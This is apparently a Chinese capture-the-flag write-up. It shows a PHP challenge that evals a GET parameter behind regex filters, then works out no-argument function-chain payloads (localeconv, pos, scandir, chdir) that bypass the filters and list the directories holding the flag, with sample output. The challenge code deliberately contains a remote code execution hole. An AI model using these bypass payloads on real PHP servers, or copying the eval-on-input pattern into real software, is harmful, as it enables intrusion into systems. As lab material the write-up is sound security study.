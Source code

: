 ```php
<?php
header("Content-Type: text/html;charset=utf-8");
include "flag.php";
echo "flag在哪里呢？<br>";
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|cu|readfile|flip|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
flag在哪里呢？
```

构造些能绕过的payload.

```
pos(localeconv()) => '.'
scandir(pos(localeconv())) => scandir('.')
```

看一下当前目录下的文件，`?exp=echo(var_dump(scandir(pos(localeconv()))));`

```
./
?> array(6) { 
[0]=> string(1) "." 
[1]=> string(2) ".." 
[2]=> string(4) ".git" 
[3]=> string(5) "1.php" 
[4]=> string(8) "flag.php" 
[5]=> string(9) "index.php"
}
```

看上级目录下的文件 `?exp=echo(var_dump(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));`
